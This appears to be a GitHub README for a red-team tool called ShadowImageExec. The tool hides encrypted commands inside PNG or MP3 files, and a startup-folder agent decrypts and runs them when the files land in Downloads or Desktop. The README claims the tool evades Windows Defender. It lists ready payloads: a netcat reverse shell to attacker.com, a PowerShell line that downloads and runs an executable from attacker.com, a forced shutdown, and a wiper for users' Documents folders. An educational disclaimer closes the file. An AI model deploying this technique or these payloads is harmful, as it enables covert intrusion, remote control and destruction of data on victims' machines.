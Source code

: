 ShadowImageExec – StegoCrypto Auto Execution via Innocent Media Files

     New Red Team Attack Technique
     Created by: Kamron Saparbayev
     Codename: mai-attack
     Year: 2025
---
What is this?

ShadowImageExec is an advanced Red Team attack technique that enables the automatic execution of commands hidden within innocent-looking media files such as .png, .mp3, or .mp4.

The core idea is simple yet powerful: embed an encrypted command inside a media file and allow a passive background agent to automatically detect and execute it as soon as the file is downloaded to the target system — without any user interaction.
---

How the Attack Works
```text
Attacker (White-Hat or Black-Hat)
        │
        ├─▶ embed-stego.py
        │     ↓
        │  Encrypted Payload (exec:...)
        │     ↓
        └─▶ Sent via Telegram
              ↓
          Target Device (Windows)
              ↓
     danger.exe (in Startup folder)
              ↓
     Watches Downloads & Desktop
              ↓
   File arrives → Decrypt → Execute
```
---
As soon as the user downloads the file (e.g., from Telegram), the pre-installed danger.exe detects the new file, decrypts the hidden payload, and executes the command silently using Python’s subprocess.run() function.

This attack is zero-click, highly stealthy, and has been proven to bypass antivirus software due to the use of encryption and steganography.
---

This tool has been tested against Windows Defender (fully updated) and was not detected under the following conditions:

--danger.exe was added to the Startup folder

--Stego payloads were delivered via Telegram and downloaded to the Desktop

--Payloads were AES-128 encrypted and embedded into .png or .mp3 files

--The agent passively monitored folders and only executed on trigger

---
Real-World Danger Examples

🔻 Shutdown
```bash
exec:shutdown /s /t 0
```
🔻 Reverse Shell (Netcat)
```bash
exec:nc -e cmd.exe attacker.com 4444
```
🔻 PowerShell Downloader
```bash
exec:powershell -c "iwr -uri http://attacker.com/x.exe -OutFile x.exe; ./x.exe"
```
🔻 File Wiper
```bash
exec:del /S /Q C:\Users\*\Documents
```
---
MITRE ATT&CK Mapping

| Technique              | ID         |
|------------------------|------------|
| Command Execution      | T1059      |
| Data from Local File   | T1005      |
| Obfuscated Files       | T1027      |
| Startup Persistence    | T1547.001  |
---
 **Legal Disclaimer**

    This project is created for educational, Red Team, and CTF simulation purposes only.
    Any misuse of this tool is the responsibility of the user.
    Unauthorized use may be illegal and unethical.
